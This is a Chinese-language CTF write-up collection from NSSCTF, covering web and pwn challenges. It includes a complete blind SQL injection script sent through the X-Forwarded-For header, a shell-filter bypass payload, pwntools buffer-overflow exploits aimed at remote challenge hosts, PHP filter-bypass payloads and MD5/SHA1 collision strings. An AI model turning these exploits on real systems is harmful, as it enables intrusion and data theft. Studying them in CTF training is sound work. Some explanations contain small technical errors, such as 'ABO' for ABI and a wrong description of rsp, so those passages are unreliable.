[NSSCTF] WP 8 - NSS 2025
===

## [WEB] [RoarCTF 2019] online_proxy

### 题解

打开网站源码, 发现有一处显示了访问 ip:



尝试可以发现此处存在注入, 每次显示的 ip 是上次访问的 ip, 通过添加这一项可以注入:

```
X-Forwarded-For:
```

exp: (转载自 nssctf 的师傅)

```python
#!/usr/bin/env python3

import requests

target = "http://node1.anna.nssctf.cn:28201/"


def execute_sql(sql):
    print("[*]请求语句：" + sql)
    return_result = ""

    payload = "0'|length((" + sql + "))|'0"
    session = requests.session()
    r = session.get(target, headers={'X-Forwarded-For': payload})
    r = session.get(target, headers={'X-Forwarded-For': 'glzjin'})
    r = session.get(target, headers={'X-Forwarded-For': 'glzjin'})
    start_pos = r.text.find("Last Ip: ")
    end_pos = r.text.find(" -->", start_pos)
    length = int(r.text[start_pos + 9: end_pos])
    print("[+]长度：" + str(length))

    for i in range(1, length + 1, 5):
        payload = "0'|conv(hex(substr((" + sql + ")," + \
            str(i) + ",5)),16,10)|'0"

        r = session.get(target, headers={'X-Forwarded-For': payload})
        r = session.get(target, headers={'X-Forwarded-For': 'glzjin'})
        r = session.get(target, headers={'X-Forwarded-For': 'glzjin'})
        start_pos = r.text.find("Last Ip: ")
        end_pos = r.text.find(" -->", start_pos)
        result = int(r.text[start_pos + 9: end_pos])
        return_result += bytes.fromhex(hex(result)[2:]).decode('utf-8')

        print("[+]位置 " + str(i) + " 请求五位成功:" +
              bytes.fromhex(hex(result)[2:]).decode('utf-8'))

    return return_result


# 获取数据库
print("[+]获取成功：" + execute_sql("SELECT group_concat(SCHEMA_NAME) FROM information_schema.SCHEMATA"))

# 获取数据库表
print("[+]获取成功：" + execute_sql("SELECT group_concat(TABLE_NAME) FROM information_schema.TABLES WHERE TABLE_SCHEMA = 'F4l9_D4t4B45e'"))

# 获取数据库表
print("[+]获取成功：" + execute_sql("SELECT group_concat(COLUMN_NAME) FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = 'F4l9_D4t4B45e' AND TABLE_NAME = 'F4l9_t4b1e' "))

# 获取表中内容
print("[+]获取成功：" + execute_sql("SELECT group_concat(F4l9_C01uMn) FROM F4l9_D4t4B45e.F4l9_t4b1e"))
```



## [PWN] [SWPUCTF 2021 新生赛] nc签到

### 题解

先下载附件:

```python
import os
print("My_shell_ProVersion")

blacklist = ['cat','ls',' ','cd','echo','<','${IFS}']

while True:
    command = input()
    for i in blacklist:
        if i in command:
            exit(0)
    os.system(command)
```

一个显然的 RCE bypass, 那么用 nc 直接连试试, 连上之后, 用常见的截断绕过: `ls`:

> bash 中常用的绕过: 反斜杠 `\` 绕过; 单双引号 `'`, `"` 绕过; 未定义字符串, 例如 `${A}` 绕过 (未定义变量默认为空);



发现 flag;

接下来需要绕过空格, 常用的绕过空格方式是用 `${IFS}`, 这里被过滤了, 注意 bash 中还支持另一种: `cat flag` -> `cat$IFS$flag`, 即用 `$IFS$` 来代替 `${IFS}`:

最后结合通配符:

```bash
c\at$IFS$fl*
```



## [PWN] [SWPUCTF 2021 新生赛] gift_pwn

### checksec

`checksec` 是一个用来检测二进制 / 系统安全缓解 (stack canary、NX、PIE、RELRO 等) 的工具脚本;

通过 `checksec` 工具可以发现当前文件的漏洞:



说明:

- RELRO:

    控制运行时把 `.got`/`.got.plt` 的一部分设为只读以防止 GOT 被篡改。

    - Partial RELRO:
        只把 `.got.plt` 的一部分锁住, 但 GOT 的某些条目 (通常 PLT 的第一次解析入口) 仍然可写;

    - Full RELRO:
        把 GOT 全部设为只读, 更安全;

- STACK CANARY:

    栈金丝雀, 是编译器插入的随机值, 函数返回前检查是否被覆盖, 可以检测缓冲区溢出问题;
    如果存在这层防护, 典型绕过需要泄露 canary 或利用信息泄露 / 格式化漏洞等;

- NX:

    最经典的保护之一: 堆栈保护 (NX / DEP) ; 禁止在栈上直接执行 shellcode;
    如果存在这种保护, 参考 web 中的 **反序列化 ROP 链**, 考虑代码重用的方式来攻击; 例如, 有一处代码使用了 `system()` 函数, 那么就可以考虑想办法复用这处代码;

- PIE:

    执行文件在每次运行时可随机加载 (类似于 ASLR), 无 PIE 时每次的地址是可以预测的; 

- RPATH / RUNPATH:

    RPATH / RUNPATH 是 ELF 中指定**额外动态库查找路径**的字段。若存在 RPATH, 那么可以劫持这个库;

### 静态分析

下载附件, 查看文件头, 是一个 64 位 ELF 二进制文件, 用 IDA 分析:

```c
ssize_t vuln()
{
  char buf[16]; // [rsp+0h] [rbp-10h] BYREF

  return read(0, buf, 0x64uLL);
}
```

注意定义了一个长为 16 的 char 数组 (16 字节), 但是读了 100 字节, 显然的溢出;

通过字符串搜索可以发现, 有另一处函数 `gift()` 包含 `system('/bin/bash')`;

接下来要确定偏移量来加载 payload;

#### 栈帧结构

栈结构中:

栈中只有一个一个入口 (栈顶), 严格按照后进先出的原则 (这是由函数调用的规则决定的), 栈底在高地址, 栈顶在低地址, 栈中各元素排列顺序如下:

> 假设调用关系是: 主函数 -> `func1` -> `func2`

```

栈顶 (低地址)
..
---
func2
---
func1
---
主函数栈帧
---
..
栈底 (高地址)
```

初始状态中, 栈只有主函数, 每次读到 `call` 指令时, 系统会陷入中断, 然后将被调用的函数压入栈, 直到新的栈顶函数被执行完毕 (到 `ret`), 循环这个过程;

#### 计算相对偏移

注意, `gift()` 的汇编输出:

```asm
; gift:
00000000004005B6  push    rbp
00000000004005B7  mov     rbp, rsp
00000000004005BA  mov     edi, offset s          ; s = "Welcom new to NSS"
00000000004005BF  call    _puts
00000000004005C4  mov     edi, offset command    ; command = "/bin/sh"
00000000004005C9  mov     eax, 0
00000000004005CE  call    _system
00000000004005D3  nop
00000000004005D4  pop     rbp
00000000004005D5  ret
```

> 注意, `rsp` 是栈底指针, 永远指向栈底, `rip` 是指令指针;

这里弹出了 `rbp`, x86_64 中寄存器是 64 位, 也就是 8 字节的, 所以这里是将 `rbp` 的值压入栈保存, 由于栈顶存值实际上是扩展了, 栈顶是往低地址方向扩展的, 因此此时地址是降了 8 字节; 一来一回地址偏移是 `0x10 + 8` = `24` 字节

### exp

> 原文链接: [CSDN](https://blog.csdn.net/weixin_58624515/article/details/129410022)

```python
from pwn import *
io = remote(ip,port)
elf = ELF("./one")
payload = cyclic(0x10+8) + p64(elf.sym["gift"])
io.sendline(payload)
io.interactive()
```



~pwn真难~

## [PWN] [CISCN 2019华北] PWN1

### 

下载附件, 64 位 ELF 文件;



反编译后看一下关键部分:

```c
int func()
{
  int result; // eax
  char v1[44]; // [rsp+0h] [rbp-30h] BYREF
  float v2; // [rsp+2Ch] [rbp-4h]

  v2 = 0.0;
  puts("Let's guess the number.");
  gets(v1);
  if ( v2 == 11.28125 )
    result = system("cat /flag");
  else
    result = puts("Its value should be 11.28125");
  return result;
}
```

注意 `gets()` 这个函数是不自带边界检查的, 非常显然这里是一处缓冲区溢出漏洞, 把 `v1` 写满, 用溢出的数据覆盖 `v2` 即可;

计算偏移量为 `0x2C` (44 字节), 剩下 4 个字节写 `11.28125`, 注意浮点数是 4 字节, 并且要符合小端序;

exp:

```python
from pwn import *
import struct

target = 'node7.anna.nssctf.cn'

io = remote(target, 27047)
elf = ELF("./nss/pwn1/PWN1")
payload = cyclic(44) + struct.pack('<f', 11.28125)
io.sendline(payload)
io.interactive()
```

---

> 注意:
> `struct.pack()` 方法返回输入值的字节流信息, 这里 `<` 表示小端序, `f` 表示浮点数; 相应的 `>` 表示大端序, `@` (留白时默认) 表示节序、大小与对齐, `=` 表示本机字节序, 但使用标准的大小与对齐 (不一定与本机一致);

运行得到结果:



比上一题简单。

## [PWN] [HNCTF 2022 WEEK2] ret2text

>hint 1:远程环境存在栈对齐的问题 (栈对齐是什么百度搜索)

>hint 2:试试partial overwrite绕过PIE

### 栈对齐

#### ABO

要理解栈对齐, 首先需要知道 ABI - ABI 定义了二进制层面上函数之间、模块之间、编译器生成的代码之间如何协作。

> 可以把 ABI 当做网络通信中的通信协议 (如 HTTP) 来理解, 是所有主机共同参与, 遵守, 维护的;

简单来说, ABO 会规定: 
- 参数如何传递 (寄存器还是栈);
- 返回值如何传递;
- 寄存器规范, 基于 `caller-save` 和 `callee-save`;
- **栈如何对齐**;
- 异常如何传播;

正因为 ABO 的原因, 不走编译器直接手改栈, hook libc, 不遵守 ABO 会出错;

#### 问题成因

看起来所有机器都遵守同一套协议, 不应该存在这个问题, 但是在栈结构等涉及 CPU 架构, 严格遵守 ABO 比遵守网络协议要困难的多:

1. 不同机器的硬件配置会极大的影响结果:

    **底层硬件**先天就决定了对齐粒度的差异;

> 例如 x86 可以访问未对齐的机器, 只是性能下降; 早期 ARM 不允许未对齐访问; SSE/AVX 要求 16 / 32 字节对齐;

2.  ABI 层面, 不同操作系统, 编译器的规范也不同:

    例如:

|平台|ABI名称|调用对齐要求|
|----|----|----|
|x86 (32bit Linux)|cdecl|4字节对齐|
|x86_64 Linux / macOS|System V ABI|**16字节对齐**|
|Windows x64|Microsoft x64 ABI|**16字节对齐 但细节略不同**|
|ARM64 (AArch64)|AAPCS64|**16字节对齐**|

  现代操作系统大多会选择 16 字节对齐, 但细节仍然是存在区别的; 因此 **跨平台写汇编**, 需要特别注意;

3. 编译器实现层: 优化方式不同, 或者没有严格遵守

    即便同一个 ABI, 不同编译器也可能自动补齐 / 破坏对齐; **内核态/裸机代码中, 编译器假定程序员自行保证对齐。**

#### 解决方案

最简单的例子就是通过扩展到高位对齐来解决, 因为栈对齐问题本质上就是一个数学上的**整除问题**;

当讨论是否满足 $n$ ($n = 2,4,8,16$)字节对齐时, 实际上是在计算:

```
A = 0x7fffffffe0 % n = ?
```

又因为内存按字节寻址, 所以实际上**地址的二进制低位就能反映对齐情况**。

|对齐要求|二进制低几位|示例地址|
|----|:----:|----|
|2 字节对齐|1位为0| `0x01234560` |
|4 字节对齐|2位为0|`0x01234500`|
|8 字节对齐|3位为0|`0x01234000`|
|16 字节对齐|4位为0|`0x01230000`|

> 其实很好想, 一个数如果能被 16 整除, 那当然也能被 2, 4, 8 整除了。

由此可见栈对齐是向下兼容的;

通常可以选择最大的对齐要求, 保证兼容所有类型;

### Partical Overwrite

Partical Overwrite - 部分覆盖, 利用内存写入漏洞 (如任意写、溢出写、格式化字符串写等) **只能覆盖目标地址的一部分字节**的特性, 通过控制 **低字节/低两字节/低三字节** 实现对 **关键地址的微调**;

用人话来说就是, 不把这个地址给写死, 而是让它**产生一点偏移**;

对于开启了内存地址随机化的目标, 例如经典的开启 ASLR 的 Linux x86_64, 无法直接预测完整地址, 但有时候可以预测**一部分**, 比如高字节变化不大;

>考虑一个情况:
>
>假设 libc 加载到不同随机基址下:
>
> ```scss
> 0x7ffff7a0d000  < libc 基址 (低 3 字节固定: d000)
> 0x7ffff7b9a000
> ```
>
> 在低 3 字节固定的情况下, 不确定的是高位, 那么可以覆盖一个 GOT 表项, 例如 `printf@GOT`, 让它从 `printf` 跳到 `system` 上;
>

关于**为什么低地址一般是固定的**: 页对齐, 映射基址通常是按页对齐, 常见页大小是 **4KB**, 在这个情况下**低 3 位**就是固定的; 

库编译后, 函数与数据在库文件里的相对位置是固定的 (**已知 libc 的前提下**); 

综上所述, 由于整页滑动和相对库的偏移都是相对固定的, 低位在多次运行中往往相同或可预测。

实际上的攻击是先通过 info leak 得知某次运行中的某一个内建函数, 如 `printf` 的地址, 再通过计算相对偏移, 去算出 `system` 的位置, 也就是: *泄露一个函数 -> 推断出其他函数*;

```
 libc_base (随机高位)
 ├──────────────┬───────────────┬──────────────┐
 │ ...          │ printf        │ system       │  ...
 │ offset A     │ offset B      │ offset C     │
 └──────────────┴───────────────┴──────────────┘
 addr_printf = libc_base + offsetB
 addr_system = libc_base + offsetC

 GOT_printf_entry -> addr_printf (可写)

  partial overwrite 低 2 字节:
   改变 GOT_printf_entry 的低 2 字节 -> 指向 libc_base + (offsetC 的低两字节)
```

## [WEB] [NCTF 2018] Easy_Audit

### 题解

开门源码:

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
if($_REQUEST){
    foreach ($_REQUEST as $key => $value) {
        if(preg_match('/[a-zA-Z]/i', $value))   die('waf..'); # ban 字母
    }
}

if($_SERVER){
    if(preg_match('/yulige|flag|nctf/i', $_SERVER['QUERY_STRING']))  die('waf..');
}

if(isset($_GET['yulige'])){
    if(!(substr($_GET['yulige'], 32) === md5($_GET['yulige']))){
        die('waf..');
    }else{
        if(preg_match('/nctfisfun$/', $_GET['nctf']) && $_GET['nctf'] !== 'nctfisfun'){
            $getflag = file_get_contents($_GET['flag']);
        }
        if(isset($getflag) && $getflag === 'ccc_liubi'){
            include 'flag.php';
            echo $flag;
        }else die('waf..');
    }
}
?>
```

`substr` + `md5` 强比较, 可以让这两个函数全部出错, 出错时返回 False, 两边都是 False 即可通过; 

第二处是要把 'yulige' 这个字符串传入:

`$_REQUEST` 有 2 个重要特性:
- 当 GET 和 POST 有相同变量时, 会优先匹配 POST; 
- `$_REQUEST[QUERY_STRING]` 匹配的是原始的, 未经编码的数据, 因此直接可以用 URL 编码绕过;

最后一处 flag 非常显然是 `data://` 伪协议:

```python
a = 'yulige'

result = ''.join(f'%{ord(c):02X}' for c in a)
print(result)
```

payload:

```
(GET)
79%75%6C%69%67%65[]=1&%6E%63%74%66=%6E%63%74%66%69%73%66%75%6E%0a&%66%6C%61%67=data://text/plain,ccc_liubi

(POST)
yulige=1&nctf=2&flag=1
```



## [WEB] [NISACTF 2022] level-up

### 目录扫描

打开网站什么都没有, 源码显示这里是 "level 1", 扫一下目录, 结合网页源码中有: `disallow` 的字符, 扫出 `/robots.txt`:





转到 `/level_2_1s_h3re.php` :

```php
<?php
//here is level 2
error_reporting(0);
include "str.php";
if (isset($_POST['array1']) && isset($_POST['array2'])){
    $a1 = (string)$_POST['array1'];
    $a2 = (string)$_POST['array2'];
    if ($a1 == $a2){
        die("????");
    }
    if (md5($a1) === md5($a2)){
        echo $level3;
    }
    else{
        die("level 2 failed ...");
    }

}
else{
    show_source(__FILE__);
}
?> 
```

#### md5 强碰撞

这里由于提前把传入的文本转为了 string 类型, 直接传两个数组进去是不行的 (string 后都为 "Array" 字符串), 那只能研究一下强碰撞;

查了一下 wp 和资料发现的强碰撞字符串:

```
(POST)
array1=%af%13%76%70%82%a0%a6%58%cb%3e%23%38%c4%c6%db%8b%60%2c%bb%90%68%a0%2d%e9%47%aa%78%49%6e%0a%c0%c0%31%d3%fb%cb%82%25%92%0d%cf%61%67%64%e8%cd%7d%47%ba%0e%5d%1b%9c%1c%5c%cd%07%2d%f7%a8%2d%1d%bc%5e%2c%06%46%3a%0f%2d%4b%e9%20%1d%29%66%a4%e1%8b%7d%0c%f5%ef%97%b6%ee%48%dd%0e%09%aa%e5%4d%6a%5d%6d%75%77%72%cf%47%16%a2%06%72%71%c9%a1%8f%00%f6%9d%ee%54%27%71%be%c8%c3%8f%93%e3%52%73%73%53%a0%5f%69%ef%c3%3b%ea%ee%70%71%ae%2a%21%c8%44%d7%22%87%9f%be%79%6d%c4%61%a4%08%57%02%82%2a%ef%36%95%da%ee%13%bc%fb%7e%a3%59%45%ef%25%67%3c%e0%27%69%2b%95%77%b8%cd%dc%4f%de%73%24%e8%ab%66%74%d2%8c%68%06%80%0c%dd%74%ae%31%05%d1%15%7d%c4%5e%bc%0b%0f%21%23%a4%96%7c%17%12%d1%2b%b3%10%b7%37%60%68%d7%cb%35%5a%54%97%08%0d%54%78%49%d0%93%c3%b3%fd%1f%0b%35%11%9d%96%1d%ba%64%e0%86%ad%ef%52%98%2d%84%12%77%bb%ab%e8%64%da%a3%65%55%5d%d5%76%55%57%46%6c%89%c9%df%b2%3c%85%97%1e%f6%38%66%c9%17%22%e7%ea%c9%f5%d2%e0%14%d8%35%4f%0a%5c%34%d3%73%a5%98%f7%66%72%aa%43%e3%bd%a2%cd%62%fd%69%1d%34%30%57%52%ab%41%b1%91%65%f2%30%7f%cf%c6%a1%8c%fb%dc%c4%8f%61%a5%93%40%1a%13%d1%09%c5%e0%f7%87%5f%48%e7%d7%b3%62%04%a7%c4%cb%fd%f4%ff%cf%3b%74%28%1c%96%8e%09%73%3a%9b%a6%2f%ed%b7%99%d5%b9%05%39%95%ab
array2=%af%13%76%70%82%a0%a6%58%cb%3e%23%38%c4%c6%db%8b%60%2c%bb%90%68%a0%2d%e9%47%aa%78%49%6e%0a%c0%c0%31%d3%fb%cb%82%25%92%0d%cf%61%67%64%e8%cd%7d%47%ba%0e%5d%1b%9c%1c%5c%cd%07%2d%f7%a8%2d%1d%bc%5e%2c%06%46%3a%0f%2d%4b%e9%20%1d%29%66%a4%e1%8b%7d%0c%f5%ef%97%b6%ee%48%dd%0e%09%aa%e5%4d%6a%5d%6d%75%77%72%cf%47%16%a2%06%72%71%c9%a1%8f%00%f6%9d%ee%54%27%71%be%c8%c3%8f%93%e3%52%73%73%53%a0%5f%69%ef%c3%3b%ea%ee%70%71%ae%2a%21%c8%44%d7%22%87%9f%be%79%6d%c4%61%a4%08%57%02%82%2a%ef%36%95%da%ee%13%bc%fb%7e%a3%59%45%ef%25%67%3c%e0%27%69%2b%95%77%b8%cd%dc%4f%de%73%24%e8%ab%66%74%d2%8c%68%06%80%0c%dd%74%ae%31%05%d1%15%7d%c4%5e%bc%0b%0f%21%23%a4%96%7c%17%12%d1%2b%b3%10%b7%37%60%68%d7%cb%35%5a%54%97%08%0d%54%78%49%d0%93%c3%b3%fd%1f%0b%35%11%9d%96%1d%ba%64%e0%86%ad%ef%52%98%2d%84%12%77%bb%ab%e8%64%da%a3%65%55%5d%d5%76%55%57%46%6c%89%c9%5f%b2%3c%85%97%1e%f6%38%66%c9%17%22%e7%ea%c9%f5%d2%e0%14%d8%35%4f%0a%5c%34%d3%f3%a5%98%f7%66%72%aa%43%e3%bd%a2%cd%62%fd%e9%1d%34%30%57%52%ab%41%b1%91%65%f2%30%7f%cf%c6%a1%8c%fb%dc%c4%8f%61%a5%13%40%1a%13%d1%09%c5%e0%f7%87%5f%48%e7%d7%b3%62%04%a7%c4%cb%fd%f4%ff%cf%3b%74%a8%1b%96%8e%09%73%3a%9b%a6%2f%ed%b7%99%d5%39%05%39%95%ab
```

这段有记录的意义, 以后也可以直接用;



> 强碰撞工具: [fastcoll](http://www.win.tue.nl/hashclash/fastcoll_v1.0.0.5.exe.zip)

> 使用案例: [CSDN](https://blog.csdn.net/m0_73683234/article/details/137245586)

#### sha1 强碰撞

接下来:

```php
if (isset($_POST['array1']) && isset($_POST['array2'])){
    $a1 = (string)$_POST['array1'];
    $a2 = (string)$_POST['array2'];
    if ($a1 == $a2){
        die("????");
    }
    if (sha1($a1) === sha1($a2)){
        echo $level4;
    }
    else{
        die("level 3 failed ...");
    }

} 
```

显然这里是一处 sha1 的强碰撞;

关于 sha1 的碰撞, google research 有两个已公布的 pdf 文档可以直接使用:

> [PDF1](https://shattered.io/static/shattered-1.pdf)

> [PDF2](https://shattered.io/static/shattered-2.pdf)

测试脚本:

```php
<?php
$file1 = file_get_contents("shattered-1.pdf");
$file2 = file_get_contents("shattered-2.pdf");

echo "SHA1 of shattered-1.pdf: " . sha1($file1) . "\n";
echo "SHA1 of shattered-2.pdf: " . sha1($file2) . "\n";

file_put_contents("file1.txt", urlencode($file1));
file_put_contents("file2.txt", urlencode($file2));
>
```

很遗憾这两个文件太大了不能直接用 POST 的方式 url 编码后传上去; 搜索了一下结果发现这个 payload 可用:

```
%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01%7FF%DC%93%A6%B6%7E%01%3B%02%9A%AA%1D%B2V%0BE%CAg%D6%88%C7%F8K%8CLy%1F%E0%2B%3D%F6%14%F8m%B1i%09%01%C5kE%C1S%0A%FE%DF%B7%608%E9rr/%E7%ADr%8F%0EI%04%E0F%C20W%0F%E9%D4%13%98%AB%E1.%F5%BC%94%2B%E35B%A4%80-%98%B5%D7%0F%2A3.%C3%7F%AC5%14%E7M%DC%0F%2C%C1%A8t%CD%0Cx0Z%21Vda0%97%89%60k%D0%BF%3F%98%CD%A8%04F%29%A1
```

```
%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01sF%DC%91f%B6%7E%11%8F%02%9A%B6%21%B2V%0F%F9%CAg%CC%A8%C7%F8%5B%A8Ly%03%0C%2B%3D%E2%18%F8m%B3%A9%09%01%D5%DFE%C1O%26%FE%DF%B3%DC8%E9j%C2/%E7%BDr%8F%0EE%BC%E0F%D2%3CW%0F%EB%14%13%98%BBU.%F5%A0%A8%2B%E31%FE%A4%807%B8%B5%D7%1F%0E3.%DF%93%AC5%00%EBM%DC%0D%EC%C1%A8dy%0Cx%2Cv%21V%60%DD0%97%91%D0k%D0%AF%3F%98%CD%A4%BCF%29%B1
```

